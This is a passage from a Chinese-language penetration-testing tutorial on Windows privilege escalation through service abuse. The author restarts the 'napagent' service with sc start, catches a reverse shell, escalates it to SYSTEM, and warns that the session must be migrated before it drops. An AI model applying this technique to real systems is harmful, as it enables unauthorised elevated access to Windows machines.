

## 5.4. 重启服务

注意这里设置完后，需要开启监听哦，然后重启服务，但是在实际的环境中是需要管理员对服务进行重启，需要等待的。

```
sc start napagent
```



## 5.5. 查看反弹

我这里没有像别人一样反弹回来就是system权限，我又进行提权了一下，把权限提成system，如果能够配合之前提到检查哪些服务是system权限进行修改，可能效果会更改，当然也会存在局限性。

同时也又可能是由于我选错服务了，演示的时候可以多试试，或者百度搜一下对应的服务，找找相关的资料。

同时还又一个问题就是，提权完的会话容易掉线，服务启动不了后，系统再结束启动后，就会离线，所以需要尽快迁移会话。

